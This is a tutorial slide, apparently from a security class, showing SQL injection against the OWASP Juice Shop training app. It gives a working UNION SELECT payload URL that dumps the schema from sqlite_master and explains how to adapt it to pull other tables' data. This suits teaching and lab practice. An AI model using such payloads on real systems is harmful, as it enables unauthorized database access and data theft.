

# Adapting this Query
Now we have a URL that we can use to grab the schema from the database:
https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20sql,%20%272%27,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20sqlite_master--
(where %20 and %27 represent an encoded space or apostrophe)
We don’t have to stop here!
We can change the table name to select from a different part of the database
We can use the query above to find out the column names for that table, and select them instead
Now you can steal any data you like! There are some suggestions on the worksheet